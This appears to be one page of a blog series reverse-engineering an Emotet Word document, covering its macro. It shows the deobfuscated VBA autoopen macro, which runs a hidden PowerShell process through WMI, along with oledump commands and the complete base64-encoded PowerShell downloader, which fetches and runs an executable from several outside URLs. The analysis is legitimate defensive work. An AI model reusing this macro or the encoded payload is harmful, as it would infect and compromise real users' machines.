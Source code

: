 ```yaml
---
layout: default
---
```


### Macro analysis

When I opened doc file in MS Office I saw a page with a picture that informed me about necessity of MS Word activation. What is more the picture was encouraging me to run a macro.

![](../assets/images/emotet_re_project/office_active.png)

Insted of doing this, I opened build-in editor for Visual Basic. (stroke ALT + F11)

![](../assets/images/emotet_re_project/vb_edit.png)

Here I started a macro deobfuscation.
There was a lot of unnecessary lines including comments (beginning with ') or while loops with that code structure:

```vb           
Heightshcf = "Throughway Jewelery & Shoes generate Frozen rich Cayman Islands Dollar radical Avenue Macao Small"

While Heightshcf = wdXMLValidationStatusOK
Electronics__Clothinghab = CDate(726)
COMwli = protocolwbq
transmittingqon = CDbl(537)
modularumu = 598
SCSIfdw = 260                            
Gorgeouswtk = Atn(Reactiverin)
Wend
```                    

In fact that while loops will never process because the condition is always false so I didn't waste time for analysing that mess. You can easily check it in debugger as I did.

In order to delete all unnecessary I used simple python script:

```python                    
import sys

with open(sys.argv[1], 'r') as fi, open(sys.argv[2], 'w') as fo:
    while_flag = False
    for line in fi:
        if '\'' in line:
            index = line.find('\'')
            line = line[:index]
            if line.replace(' ','') != '':
                line += '\n'
        elif 'While' in line:
            while not ('Wend' in line):
            line = fi.readline()
            line = ""
        elif 'Heightshcf' in line:
            line = ""
        fo.write(line)
```           
                

After initial deobfuscation code looked like that:

```vb                    
Attribute VB_Name = "Avonqtl"
Function Gorgeous_Concrete_Gloveswip()
On Error Resume Next
Set Gorgeous_Concrete_Gloveswip = CreateObject(primarymhj + orangemkj(Ridgetjj.channelsioc + Awesomeiip))
Gorgeous_Concrete_Gloveswip.ShowWindow = wdXMLValidationStatusOK
End Function
Function orangemkj(Administratortqv)
On Error Resume Next
    channelsvou = Administratortqv 
metricsiia = "67" 
orangemkj = Replace(channelsvou, metricsiia, "") 
End Function
Sub autoopen()
On Error Resume Next
Kuwaiti_Dinarzip 
End Sub

Attribute VB_Name = "tf3rdgenerationjiu"
Function Kuwaiti_Dinarzip()
On Error Resume Next
Valleyiti = Burundivdl + "p" + orangemkj(Ridgetjj.Automotive__Healthjwm + Ridgetjj.Music__Babyulz) 
Delawarejjq = Crossgroupnhp
Set Small_Metal_Mousendm = CreateObject(orangemkj(orangemkj(CStr(912051 + 67 - 912051) + "676767winmgmts:676767Win32_Proc6767ess")))
Delawarejjq = Delawarejjq + Small_Metal_Mousendm.Create#(Valleyiti, Covesnhl, Gorgeous_Concrete_Gloveswip, matrixttd)
End Function
```                    
                

A bit better but there was still a lot to do. I started with autoopen() function, because the macro started execution from there.
During analysing execution flow in debugger I deobfuscated the rest of the code.

Resulted code looked like that:

```vb                 
Attribute VB_Name = "tf3rdgenerationjiu"

Function create_process()
On Error Resume Next
'Automotive__Healthjwm - obfuscated string "owershell"
'Music__Babyulz - encoded PowerShell script
power_shell_command = "p" + remove_string(Ridgetjj.Automotive__Healthjwm + Ridgetjj.Music__Babyulz)
Set win32_object = CreateObject(remove_string("676767winmgmts:676767Win32_Proc6767ess"))
'directory and pid are NULL 
win32_object_process = win32_object.Create#(power_shell_command, directory, win32_process_startup, pid)
End Function

Attribute VB_Name = "Avonqtl"
Function win32_process_startup()
On Error Resume Next
'channelsioc - obfuscated string "winmgmnts:win32_processstartup"
Set win32_process_startup = CreateObject(remove_string(Ridgetjj.channelsioc))
win32_process_startup.ShowWindow = 0
End Function

Function remove_string(str_to_operate)
On Error Resume Next
remove_string = Replace(str_to_operate, "67", "") 
End Function

Sub autoopen()
On Error Resume Next 
create_process 
End Sub
```                    
                
I presented macro execution in following list:

1.  autoopen() function calls create_process
2.  power_shell_command variable is initialized with string created by concatenation of "p" and string returned by remove_string function.
    Argument passed to remove_string is a string which is created by concatenation of two string from OLE object.
3.  remove_string deletes all occurrence of "67" string in passed string.
4.  After all in power_shell_command followed string is placed:
```powershell
    powershell -enco PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQA...
```
5.  Next winmgmnts:win32_Process object is created which is used to create and run process.
   
Next I used oledump to gain content of OLE objects

```bash                    
python oledump/oledump.py PL_95054906484_68262954.doc
```                    
![](../assets/images/emotet_re_project/oledump.png)                

I assumed that PowerShell script would be in 18th stream (Big stream's size suggested that).

```bash                    
python oledump/oledump.py -s 18 PL_95054906484_68262954.doc > payload.txt
```                    

Then I cut contet which interested me.

```bash                    
cat payload.txt | cut -d '  ' -f20 > payload_cut.txt
```             
                
Additionally I dumped content of 16th and 22th stream.

```bash
python oledump/oledump.py -s 16 PL_95054906484_68262954.doc > process_startup.txt
python oledump/oledump.py -s 22 PL_95054906484_68262954.doc > power_shell.txt
```

That streams contain strings "owershell -enco" or "winmgmts:win32_processstartup".

In order to print all streams you can use that command:

```bash     
seq 12 | awk '{ system("echo stream:  $1+13") system("python oledump/oledump.py PL_95054906484_68262954.doc -s " $+13) system("echo \n") }'
```
                
Encoded payload:

```plain                 
PAAjACAAaAB0AHQAcABzADoALwAvAHcAdwB3AC4AbQBpAGMAcgBvAHMAbwBmAHQALgBjAG8AbQAvACAAIwA+ACAAJABSAGUAZgBpAG4AZQBkAF8AUABsAGEAcwB0AGkAYwB
fAFMAbwBhAHAAegBwAHAAPQAnAEIAbwByAGQAZQByAHMAbwBkAGkAJwA7ACQAcgBlAGEAbAB0AGkAbQBlAHYAZgBiACAAPQAgACcAMQAyADYAJwA7ACQAaQBuAHYAbwBpA
MAZQBvAGEAagA9ACcAZgByAGEAbQBlAHIAbABqACcAOwAkAG0AaQBkAGQAbABlAHcAYQByAGUAbAB0AGsAPQAkAGUAbgB2ADoAdQBzAGUAcgBwAHIAbwBmAGkAbABlACsAJ
wBcACcAKwAkAHIAZQBhAGwAdABpAG0AZQB2AGYAYgArACcALgBlAHgAZQAnADsAJABiAGEAYwBrAF8AdQBwAGoAdgBpAD0AJwBCAGUAcgBrAHMAaABpAHIAZQBrAHcAegAn
ADsAJABQAGwAYQB6AGEAawBwAGkAPQAuACgAJwBuAGUAdwAtACcAKwAnAG8AYgAnACsAJwBqAGUAYwB0ACcAKQAgAE4ARQB0AC4AVwBlAGIAQwBMAGkAZQBOAFQAOwAkAEQ
AeQBuAGEAbQBpAGMAcQBtAGIAPQAnAGgAdAB0AHAAOgAvAC8AdwB3AHcALgBwAGkAZQBjAGUAbwBmAHAAYQBzAHMAaQBvAG4ALgBuAGUAdAAvADAAeAByAG4AbAAzAC8AYQ
AyADcAeABtADkAOQBmAGcAZABfAG8AbgA3AHgAcAAtADMAMQAxADMANAAxADgAOQAvAEAAaAB0AHQAcAA6AC8ALwB3AHcAdwAuAG0AYQByAGsAZQB0AGYAeABlAGwAaQB0AG
UALgBjAG8AbQAvAHcAcAAtAGEAZABtAGkAbgAvAHUAbgBuAEoAdABDAEgAawAvAEAAaAB0AHQAcABzADoALwAvAHQAYQBuAGEAbgBmAG8AbwBkAC4AYwBvAG0ALwB3AHAALQB
pAG4AYwBsAHUAZABlAHMALwB5AG8AYwBsAHcAeQBXAEUALwBAAGgAdAB0AHAAOgAvAC8AcgBhAGkAcwBhAGIAbwBvAGsALgBjAG8AbQAvAHcAcAAtAGMAbwBuAHQAZQBuAHQAL
wBOAGoAQgB0AHUAeABCAHoAawBEAC8AQABoAHQAdABwADoALwAvAGIAaQBzAHcAYQBsAGYAbwBvAGQAYwBpAHIAYwBsAGUALgBjAG8AbQAvAHYAYwBvAGIAaABsAG8AbgBzAC8
AawBhAGYANgBqAF8ANwAxAHcAegBrAGcAdgBxAHMAbwAtADgALwAnAC4AIgBzAFAAYABMAGkAdAAiACgAJwBAACcAKQA7ACQAQwBsAHUAYgBvAG0AYgA9ACcARQBzAHQAYQB0A
GUAcwB3AGoAcwAnADsAZgBvAHIAZQBhAGMAaAAoACQATQB1AHMAaQBjAF8AXwBHAGEAbQBlAHMAcABtAHUAIABpAG4AIAAkAEQAeQBuAGEAbQBpAGMAcQBtAGIAKQB7AHQAcgB5
AHsAJABQAGwAYQB6AGEAawBwAGkALgAiAGQATwBgAHcATgBgAGwATwBhAGAAZABmAGkATABFACIAKAAkAE0AdQBzAGkAYwBfAF8ARwBhAG0AZQBzAHAAbQB1ACwAIAAkAG0AaQB
kAGQAbABlAHcAYQByAGUAbAB0AGsAKQA7ACQAQQBwAHAAbABpAGMAYQB0AGkAbwBuAHMAaQBxAHIAPQAnAEcAcgBvAGMAZQByAHkAdABpAHcAJwA7AEkAZgAgACgAKAAmACgAJwB
HAGUAdAAnACsAJwAtAEkAJwArACcAdABlAG0AJwApACAAJABtAGkAZABkAGwAZQB3AGEAcgBlAGwAdABrACkALgAiAEwARQBgAE4AZwBUAGgAIgAgAC0AZwBlACAAMwA1ADYAMAA5
ACkAIAB7AFsARABpAGEAZwBuAG8AcwB0AGkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgAiAHMAYABUAEEAUgB0ACIAKAAkAG0AaQBkAGQAbABlAHcAYQByAGUAbAB0AGsAKQA7ACQ
AdAByAGEAbgBzAGYAbwByAG0AdgBkAHAAPQAnAEIAZQBkAGYAbwByAGQAcwBoAGkAcgBlAGoAdwBjACcAOwBiAHIAZQBhAGsAOwAkAEMAbwBuAGMAcgBlAHQAZQBpAGoAYQA9ACcAcg
BlAGQAdQBuAGQAYQBuAHQAdwB3AGkAJwB9AH0AYwBhAHQAYwBoAHsAfQB9ACQAbQBvAHIAcABoAHQAcQBiAD0AJwBHAG8AcgBnAGUAbwB1AHMAXwBGAHIAZQBzAGgAXwBIAGEAdABpAH
EAYgAnAA==       
```      

#### Table of content:

1.  [Environment configuration](environment-configuration.html)
2.  [Initial analysis](initial-analysis.html)
3.  [Macro analysis](macro-analysis.html)
4.  [Dropper analysis](dropper-analysis.html)
5.  [Detonation](detonation.html)
7.  [Domain analysis](domain-analysis.html)
8.  [Detonation ver. 2](detonation-v2.html)
9.  [Summary](summary.html)